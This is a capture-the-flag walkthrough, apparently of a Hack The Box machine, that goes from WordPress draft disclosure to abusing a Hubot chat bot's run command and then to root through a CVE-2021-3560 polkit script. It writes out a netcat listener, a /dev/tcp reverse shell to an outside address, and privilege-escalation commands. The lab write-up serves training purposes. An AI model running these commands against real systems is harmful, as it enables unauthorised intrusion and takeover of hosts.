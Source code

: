## Exploit - 10.129.167.66

The initial nmap scan finds port 80 open:  
`nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- 10.129.167.66`

Visiting the page at http://10.129.167.66/ shows a default webpage:
![](images/webpage.png)

Viewing the request in Burp gives more information. The "X-Backend-Server" header in the HTTP response reveals the hostname: 
![](images/burp.png)

Add the hostname to the hosts file `/etc/hosts`
```
127.0.0.1       localhost
127.0.1.1       kali
10.129.167.66   office.paper
```
Navigate to `http://office.paper`


Wappalyzer finds Wordpress 5.2.3 is running. Searchsploit has an entry for this version.  
`searchsploit -m multiple/webapps/47690.md`

Navigate to `http://office.paper/?static=1` to view secret content.

The drafts point to the URL `http://chat.office.paper/register/8qozr226AhkCHZdyY`.  

Add the chat subdomain to the hosts file `/etc/hosts`
```
127.0.0.1       localhost
127.0.1.1       kali
10.129.167.66   office.paper chat.office.paper
```
Register a new account. Open a direct chat message with 'recyclops'.

Use the bot find undocumented functions:  
`list ../hubot/scripts/`  
![](images/scripts.png)

"run.js" describes a run command:  
`file ../hubot/scripts/run.js`

Setup listener:  
`sudo nc -lvnp 443`

Send reverse shell:  
`run /bin/sh -i >& /dev/tcp/10.10.16.8/443 0>&1`

Upgrade shell:  
`python3 -c import pty;pty.spawn("/bin/bash")'`
`CNTL + Z`
`stty raw -echo;fg`

## Escalation - 10.129.167.66

Vulnerable to CVE-2021-3560-Polkit-Privilege-Esclation as descibed [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

Download script at https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation to box and run.  

`./priv.sh -u=doubt -p=pass`  
`su doubt`  
`sudo bash`  
![](images/priv.png)


## Proof - 10.129.167.66 

### User
![](images/user.png)

### Root
![](images/root.png)